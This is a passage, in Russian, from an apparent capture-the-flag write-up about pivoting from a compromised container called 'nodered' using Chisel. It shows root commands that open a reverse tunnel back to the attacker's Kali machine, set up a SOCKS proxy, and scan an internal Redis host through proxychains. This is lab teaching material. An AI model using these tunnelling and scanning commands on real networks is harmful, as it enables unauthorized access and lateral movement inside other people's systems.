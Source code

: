```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 R:127.0.0.1:8001:127.0.0.1:31337 &
```

Потом делаем обратный проброс с `nodered` (порт `31337`) на Kali (порт `8001`). На данном этапе все, что попадает на Kali через `localhost:8001`, отправляется в `nodered` на `localhost:31337`.

```
root@nodered:/tmp# ./chisel server -v -p 31337 --socks5
```

Следующим шагом запускаем Chisel в режиме SOCKS-сервера на `nodered` слушать порт `31337`.

```
root@kali:~/chisel# ./chisel client 127.0.0.1:8001 1080:socks
```

В завершении активируем дополнительный клиент Chisel на Kali (со значением `socks` в качестве remote), который подключается к локальному порту `8001`. А дальше начинается магия: трафик передается через порт `1080` SOCKS-прокси по обратному туннелю, который обслуживает первый сервер на 8000-м порту, и попадает на интерфейс `127.0.0.1` контейнера `nodered` в порт `31337`, где уже развернут SOCKS-сервер. Фух.

С этого момента мы можем обращаться к любому хосту по любому порту, до которых может дотянутся `nodered`, а SOCKS-прокси выполнит всю маршрутизацию за нас.

```
root@kali:~# proxychains4 nmap -n -Pn -sT -sV -sC 172.19.0.3 -p6379
...
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
...
```
